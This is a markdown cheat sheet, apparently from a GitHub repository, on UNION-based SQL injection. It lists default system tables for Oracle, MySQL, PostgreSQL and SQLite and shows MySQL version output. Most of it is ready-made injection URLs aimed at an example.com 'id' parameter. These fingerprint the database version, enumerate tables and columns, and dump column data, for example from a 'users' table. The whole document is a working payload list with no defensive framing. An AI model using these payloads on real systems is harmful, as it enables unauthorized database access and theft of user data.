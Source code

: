 ### Default Tables in Different Database types 
```
Oracle - dual , v$version ,all_tables , all_tab_columns
MySQL,PostgreSQL - information_schema.tables,information_schema.columns
SQLite - sqlite_master
```

```
mysql> show variables like "%version%"
    -> ;
+-------------------------+-------------------------+
| Variable_name           | Value                   |
+-------------------------+-------------------------+
| innodb_version          | 5.7.34                  |
| protocol_version        | 10                      |
| slave_type_conversions  |                         |
| tls_version             | TLSv1,TLSv1.1,TLSv1.2   |
| version                 | 5.7.34-0ubuntu0.18.04.1 |
| version_comment         | (Ubuntu)                |
| version_compile_machine | x86_64                  |
| version_compile_os      | Linux                   |
+-------------------------+-------------------------+
8 rows in set (0.04 sec)

```

Getting information from string type column
```
https://www.example.com/products?id=2' UNION SELECT NULL,@@version,NULL -- -
https://www.example.com/products?id=2' UNION SELECT NULL,version(),NULL -- -
https://www.example.com/products?id=2' UNION SELECT NULL,BANNER,NULL from v$version -- -
https://www.example.com/products?id=2' UNION SELECT NULL,@@version_compile_machine,NULL -- -
```

--- 

## Dumping all Tables and data

**ORACLE**
```
https://www.example.com/products?id=2' UNION SELECT NULL,TABLE_NAME,NULL from all_tables -- -
https://www.example.com/products?id=2' UNION SELECT NULL,COLUMN_NAME,NULL from all_tab_columns where table_name = 'users'
```

**MySQL,MSSQL,PostgreSQL**
```
https://www.example.com/products?id=2' UNION SELECT NULL,TABLE_NAME,NULL from information_schema.tables -- -
https://www.example.com/products?id=2' UNION SELECT NULL,COLUMN_NAME,NULL from information_schema.columns where table_name = 'users' -- -
```

Dumping data from columns
```
https://www.example.com/products?id=2' UNION SELECT NULL,CONCAT(column1,'|',column2),NULL from table_name -- -
```

--- 